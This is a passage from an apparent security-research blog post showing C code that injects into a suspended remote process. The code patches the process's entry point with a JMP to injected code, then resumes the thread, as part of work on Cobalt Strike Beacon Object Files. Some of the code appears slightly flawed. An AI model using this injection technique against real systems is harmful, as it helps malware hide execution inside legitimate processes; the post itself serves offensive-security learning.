 |Opcode|Instruction|Description|
|---|---|---|
|0xE9|JMP|Jump near, relative, RIP = RIP + 32-bit displacement sign extended to 64-bits|
|0xC3|RET|Pops return address off stack, continues execution at that address|

The remote *entry point* address is then overwritten with the patch and memory protections are restored to **PAGE_EXECUTE_READ**.

```c
DWORD oldProtect;
SIZE_T bytesToChange = 6;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, PAGE_READWRITE, &oldProtect);

char patch[6] = { 0 };
memcpy_s(patch, 1, "\xE9", 1);
DWORD jumpsize = rBaseAddr - rEntrypoint;
memcpy_s(patch + 1, 4, &jumpsize, 4);
memcpy_s(patch + 5, 1, "\xC3", 1);
bytesWritten = 0;
NtWriteVirtualMemory(pi.hProcess, rEntrypoint, patch, sizeof(patch), &bytesWritten);

DWORD oldOldProtect;
NtProtectVirtualMemory(pi.hProcess, &rEntrypoint, &bytesToChange, oldProtect, &oldOldProtect);
```

#### 6. Resuming the process

Finally, the process is resumed.

```c
NtResumeThread(pi.hThread, NULL);
```

### 6. Wrapping up

This week has been a lot of trial and error (mostly error let's be honest) and I realize I might have made things too hard for myself. It hasn't immediately resulted in any useful Beacon Object Files, but it did help me understand a lot more concepts and techniques. Afterall you learn most from making mistakes.

`NtDelayExecution(FALSE, 604800000);`